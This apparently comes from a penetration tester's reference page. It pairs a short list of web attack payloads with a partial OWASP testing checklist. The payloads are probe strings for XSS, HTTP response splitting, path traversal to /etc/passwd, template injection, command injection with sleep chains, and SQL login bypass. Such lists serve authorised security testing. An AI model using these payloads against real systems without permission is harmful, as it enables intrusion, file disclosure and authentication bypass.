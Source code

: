 ```
'>"><iframe/onload=alert(1)></iframe>
INJECTX'>"><ScRiPt>confirm(1)<ScRiPt>
"></textarea><img/onload=alert(1)>' -- // INJECTX <!-- 
"><img/onload=alert(1)>' -- // INJECTX <!-- 
INJECTX'"><h1>X<!-- 
INJECTX"><h1>X
en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
../../../../../../../../../../../etc/passwd%00
{{4+4}}
sleep 5; sleep 5 || sleep 5 | sleep 5 & sleep 5 && sleep 5
admin" or "1"="1"-- 
admin' or '1'='1'-- 
INJECTX%0a%0d%00
```




### OWASP TESTING CHECKLIST:
-----------------------------------------------------------------------
- Spiders, Robots and Crawlers	IG-001
- Search Engine Discovery/Reconnaissance	IG-002
- Identify application entry points	IG-003
- Testing for Web Application Fingerprint	IG-004
- Application Discovery	IG-005
- Analysis of Error Codes	IG-006
- SSL/TLS Testing (SSL Version, Algorithms, Key length, Digital Cert. Validity) - SSL Weakness	CM‐001
- DB Listener Testing - DB Listener weak	CM‐002
- Infrastructure Configuration Management Testing - Infrastructure Configuration management weakness	CM‐003
- Application Configuration Management Testing - Application Configuration management weakness	CM‐004
- Testing for File Extensions Handling - File extensions handling	CM‐005
- Old, backup and unreferenced files - Old, backup and unreferenced files	CM‐006
- Infrastructure and Application Admin Interfaces - Access to Admin interfaces	CM‐007
- Testing for HTTP Methods and XST - HTTP Methods enabled, XST permitted, HTTP Verb	CM‐008
- Credentials transport over an encrypted channel - Credentials transport over an encrypted channel	AT-001
- Testing for user enumeration - User enumeration	AT-002
- Testing for Guessable (Dictionary) User Account - Guessable user account	AT-003
- Brute Force Testing - Credentials Brute forcing	AT-004
- Testing for bypassing authentication schema - Bypassing authentication schema	AT-005
- Testing for vulnerable remember password and pwd reset - Vulnerable remember password, weak pwd reset	AT-006
- Testing for Logout and Browser Cache Management - - Logout function not properly implemented, browser cache weakness	AT-007
- Testing for CAPTCHA - Weak Captcha implementation	AT-008
- Testing Multiple Factors Authentication - Weak Multiple Factors Authentication	AT-009
- Testing for Race Conditions - Race Conditions vulnerability	AT-010
- Testing for Session Management Schema - Bypassing Session Management Schema, Weak Session Token	SM-001
- Testing for Cookies attributes - Cookies are set not ‘HTTP Only’, ‘Secure’, and no time validity	SM-002
- Testing for Session Fixation - Session Fixation	SM-003
- Testing for Exposed Session Variables - Exposed sensitive session variables	SM-004
- Testing for CSRF - CSRF	SM-005
- Testing for Path Traversal - Path Traversal	AZ-001
- Testing for bypassing authorization schema - Bypassing authorization schema	AZ-002
- Testing for Privilege Escalation - Privilege Escalation	AZ-003
- Testing for Business Logic - Bypassable business logic	BL-001